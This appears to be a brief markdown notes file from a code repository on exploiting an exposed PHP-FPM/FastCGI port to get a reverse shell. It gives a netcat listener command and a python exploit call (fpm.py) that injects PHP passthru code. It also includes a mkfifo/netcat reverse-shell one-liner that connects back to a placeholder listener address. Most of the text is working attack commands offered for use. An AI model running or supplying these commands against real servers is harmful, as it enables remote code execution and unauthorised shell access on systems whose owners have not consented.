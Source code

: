 # Tools

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python

https://www.revshells.com/



## Listener

`nc -nlvp 80`


## Connect (Get reverse shell)

Example execution of python script against vulnerable fpm server in order to get reverse shell.

In this example fpm gets triggered against fastcgi port calling exploitable php file.
``` bash
    python3 fpm.py -c "<?php passthru('rm -f /tmp/x; mkfifo /tmp/x; /bin/sh -c \"cat /tmp/x | /bin/sh -i 2>&1 | nc <listener_IP> <listner_port> > /tmp/x\"'); ?>" -p <vulnerable_port> <Vulnerable_IP> /var/www/html/<path_to_file>
```

### Reverse shell command
 `rm -f /tmp/x; mkfifo /tmp/x; /bin/sh -c \"cat /tmp/x | /bin/sh -i 2>&1 | nc <Listener_IP> 80 > /tmp/x\"`